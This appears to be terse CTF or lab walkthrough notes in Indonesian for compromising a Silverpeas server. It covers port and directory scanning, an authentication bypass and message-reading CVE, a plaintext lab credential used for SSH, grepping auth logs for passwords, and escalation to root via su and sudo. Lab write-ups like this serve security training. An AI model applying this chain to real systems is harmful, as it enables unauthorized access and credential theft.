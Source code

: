 1. nmap biasa -> sudo nmap -sV -sV -p- ip -vv --min-rate 1000 | tee scan.txt
2. buka 8080 -> gobuster dir -u http://ip:8080 -w customwordlist.txt -> wordlist ada disitu
3. cari cve silverpeas -> https://github.com/advisories/GHSA-4w54-wwc9-x62c -> remove password field di burp
4. cari default cred -> silverpeas default credentials -> nanti jadiin username aja
5. cari cve lagi -> https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323
6. tambahin ini /silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[masukin id 1 misal]
7. di id 6 nemu cred -> tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol -> ssh aja kesitu
8. ls /var/log -> cat var/log/auth* | grep -i --text pass -> cari2 cred pass -> -i biar gapeduli lower upper
9. disitu ada cred postgreesql -> su tyler -> passwordnya itu coba
10. sudo su -> jadi root -> klaim /root
